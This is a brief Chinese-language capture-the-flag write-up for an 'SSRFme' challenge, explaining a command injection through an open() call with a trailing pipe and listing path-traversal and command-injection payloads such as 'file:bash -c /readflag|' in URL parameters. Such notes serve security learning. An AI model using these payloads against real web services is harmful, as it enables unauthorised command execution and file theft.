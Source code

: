## SSRFme
一个基于open函数的执行漏洞 命令后加竖线执行
![](attachments/Pasted%20image%2020240322181827.png)
![](attachments/Pasted%20image%2020240321205048.png)
```
?url=./../../../../../&filename=1234
```

访问 `echo(md5("orange"."xxx.xxx.xxx.xxx"));`
![](attachments/Pasted%20image%2020240321210449.png)

命令注入 `file:/readflag|`

pyload
```
?url=&filename=bash -c /readflag|
/?url=file:bash -c /readflag|&filename=wuwu
```
 >第一段payload中构造的文件名既作为文件名使用又在后面利用file:读取时执行了命令
 >第二段将文件中的内容读到自定义的文件中
